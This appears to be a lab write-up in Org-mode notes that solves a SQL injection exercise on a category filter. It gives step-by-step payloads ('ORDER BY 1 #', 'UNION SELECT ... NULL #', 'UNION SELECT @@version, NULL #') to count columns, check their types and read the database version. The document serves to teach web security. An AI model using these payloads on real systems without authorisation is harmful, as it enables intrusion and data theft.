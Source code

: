 #+title: SQL injection attack, querying the database type and version on MySQL and Microsoft

* About
sql injection on ~catergory~ filter

** End Goal
Display database version string

* Steps
** Step 1
Find out how many columns are there
#+begin_src sql
'ORDER BY 1 --
#+end_src
#+begin_quote
This will give error because in this database system '--' this comment syntax is invalid
We can use another syntax for the comment '#'
#+end_quote

So query will be
#+begin_src sql
'ORDER BY 1 #
#+end_src

Similarly check out until we get error
#+begin_quote
Column will be 2
#+end_quote

** Step 2
Check the data type of those 2 columns
#+begin_src sql
'UNION SELECT 'abc', NULL #
#+end_src
And so on
#+begin_quote
Both columns will be string data type
#+end_quote

* Solution
To find out version for database of Microsoft and Mysql we use ~SELECT @@version~

#+begin_src sql
'UNION SELECT @@version, NULL #
#+end_src
